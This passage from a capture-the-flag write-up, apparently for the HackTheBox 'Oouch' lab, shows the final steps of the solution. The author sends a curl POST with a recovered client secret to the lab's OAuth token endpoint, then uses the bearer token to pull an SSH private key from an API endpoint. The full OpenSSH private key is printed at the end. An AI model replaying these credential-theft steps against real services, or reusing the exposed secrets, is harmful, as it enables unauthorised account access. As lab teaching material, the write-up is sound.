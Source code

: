 We are nearly at user dont worry just a few more steps to go.

Our main goal at this stage is to try and get access to the api that was mentioned earlier in the docs.

We are going to make a `POST` request to `http://authorization.oouch.htb:8000/oauth/token/` using our `client_id`.

```bash
curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=7ZLCaJIn9NzEQ081RCpkk6rLwc7aJmYZGDmfvhsn&client_secret=xSxBgeE6uzDfT2cx4vnHDIygiLlwyI65aMYC6pzR77HaNSi7GhhLZmoRsKZJQ3vHOcRI7VeO2wVnWd56AhucNeBL1KgOLGdbRKy5B5dgxvWIbFWrUjAJS3oDYJ3EGqdn" -L -s
```

This should give us the response:

```bash
{"access_token": "xxxxxxxxxxxxxxxx", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}#
```

We will use this access token to get our ssh keys.

We make one final request to our browser with the url `http://authorization.oouch.htb:8000/api/get_ssh/?access_token=LpLKz5mxCzy8mxCLPnbzhtseeXyeEK`

And we get the ssh key!

We modify it to make it the correct format and this is our final result:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```